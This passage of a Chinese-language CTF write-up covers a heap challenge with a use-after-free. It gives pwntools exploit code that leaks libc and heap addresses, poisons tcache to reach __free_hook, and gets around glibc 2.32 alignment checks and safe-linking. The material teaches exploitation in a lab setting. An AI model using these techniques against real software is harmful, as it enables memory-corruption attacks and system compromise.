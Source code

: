 ```python
def delete(idx):
    info(f"delete {idx}")
    p.sendlineafter(b"Choice> ", b"3")
    p.sendlineafter(b"index> ", str(idx).encode())

def quit():
    p.sendlineafter(b"Choice> ", b"4")
```

这里的问题就在于 delete 的时候并没有在 malloc_base 和 size_record 中也抹除掉记录，导致存在 UAF，可以利用堆 bins 的特性泄漏 libc 地址，进行任意地址读写等。

### 漏洞利用
#### 劫持 __free_hook
这道题目和今年国赛初赛的一个堆 pwn 很像，都是 UAF + tcache 的利用，操作也差不多，但是那个题目开了 Full RELRO，这个题目只有 Partial，所以推测应该也适用，就尝试仿照那个了。

首先是利用 small bins 中区块的 fd 泄漏出 libc 基地址。需要先 free 七个 chunk 填满 tcache，接下来一个就到了 small bins 中，此时 show 即可输出 fd，然后通过调试 vmmap 计算偏移，得到 libc 基地址：

```python
for i in range(0, 8):
    create(i, 0x80)

for i in range(7, -1, -1):
    delete(i)

show(0)
libc.address = u64(p.recvn(8)) - 0x219ce0
success(f"libc: {hex(libc.address)}")
info(f"__free_hook addr: {hex(libc.sym['__free_hook'])}")
```

接下来布局 tcache 实现任意地址分配堆块。创建两个新 chunk（大小要和之前不同，不然 tcache 被前面的占满了），然后 free 掉构成 tcache->A->B。这时 UAF 覆盖 A 的 fd，然后 create 把 A 分出去，接下来再 create 就会将一个 chunk 分配到我们覆盖的 fd 位置处。

这里就是要覆盖 __free_hook：

```python
create(8, 0xf0)
create(9, 0xf0)
delete(9)
delete(8)
update(8, p64(libc.sym['__free_hook']))
create(10, 0xf0)
create(11, 0xf0)
```

这里出现了第一个问题，create(11, 0xf0) 的时候会报错 unaligned tcache chunk，调试发现 __free_hook 没有 0x10 对齐，这是 glibc 2.32 新的机制，要求对齐。所以往前移动八字到 __malloc_hook 的位置，然后稍后覆盖时给 __malloc_hook 继续覆盖 0 即可。

紧接着出现了第二个问题，在调试过程中，这个分配到的地址并不是我们写的 fd，而且堆内容是我们写的 fd，但 bins 给的地址不一样。通过搜索得知这也是 glibc 2.32 的一个新机制 safe-linking，tcache 中 fd 地址会异或（堆地址>>12）。绕过方式也很简单，读取最开头的 chunk 的 fd 即可，这里是 0 异或（堆地址>>12），所以可以直接泄漏出来：

```python
create(8, 0xf0)
create(9, 0xf0)
delete(9)
delete(8)

# leak heap addr
show(9)
heap_xor_base = u64(p.recvn(8))
success(f"heap_xor_base: {hex(heap_xor_base)}")
update(8, p64((libc.sym['__free_hook'] - 0x8) ^ heap_xor_base))
create(10, 0xf0)
create(11, 0xf0)
```